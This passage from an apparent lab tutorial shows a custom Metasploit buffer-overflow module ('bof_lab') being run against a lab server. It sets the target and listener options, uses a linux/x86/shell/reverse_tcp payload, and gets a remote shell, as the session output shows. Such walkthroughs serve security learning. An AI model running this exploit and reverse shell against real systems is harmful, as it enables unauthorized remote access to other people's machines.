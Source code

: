 It basically connects to the server, sends `A` for 1044 times (which is the offset), and `Ret` and finally the payload. That's it, super simple!!


### Exploit!

Now, let's try an exploit!

Note that my environment was the following:

- Server (`10.0.1.130`) listening on port 1234, username: `sirius`
- MSF (`127.0.0.1`), reverse handler listening on port 8888

First, start the `msfconsole` and direct to the module that you just created.

```
$ ./msfconsole -q
msf > use exploit/custom/bof_lab 
msf exploit(bof_lab) > show options

Module options (exploit/custom/bof_lab):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT                   yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```

Let's specify options, according to the environment. For payloads, I will use `linux/x86/shell/reverse_tcp`, so I can get a shell of the server. You can also specify other payloads, if you want to play around with different ways.

```
msf exploit(bof_lab) > set RHOST 10.0.1.130
RHOST => 10.0.1.130
msf exploit(bof_lab) > set RPORT 1234
RPORT => 1234
msf exploit(bof_lab) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf exploit(bof_lab) > set LPORT 8888
LPORT => 8888
msf exploit(bof_lab) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(bof_lab) > exploit

[*] Started reverse TCP handler on 127.0.0.1:8888 
[*] 10.0.1.130:1234 - Sending 71 byte payload...
[*] Sending stage (36 bytes) to 127.0.0.1
[*] Command shell session 1 opened (127.0.0.1:8888 -> 127.0.0.1:33734) at 2016-07-25 00:49:52 -0700
```

Here we go! You got it! 

```
msf exploit(bof_lab) > sessions -i 1
[*] Starting interaction with 1...

whoami
sirius
```

